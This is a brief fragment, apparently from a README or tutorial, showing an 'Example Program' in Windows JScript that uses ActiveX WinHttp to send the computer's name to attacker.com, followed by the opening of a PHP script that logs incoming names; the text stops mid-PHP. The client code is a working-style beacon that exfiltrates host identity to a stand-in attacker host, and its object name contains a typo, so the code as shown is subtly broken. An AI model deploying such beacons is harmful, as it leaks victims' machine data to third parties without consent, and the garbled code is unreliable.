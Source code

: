 ```

**Example "Program"**
This little executable will run on windows and connect to attacker.com passing the computer name
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpReque1st.5.1");
var network = new ActiveXObject('WScript.Network');
var temp = WinHttpReq.Open("GET", "https://attacker.com/hit.php?name="+network.computerName, false);
WinHttpReq.Send();
var strResult = WinHttpReq.ResponseText;
WScript.Sleep(1500);
WScript.Echo("Success!");
```
**Example Backend Logging**
This PHP will receive the connection and append the current time and computer name to a file
```
<?php
    if(isset($_GET["name"])){
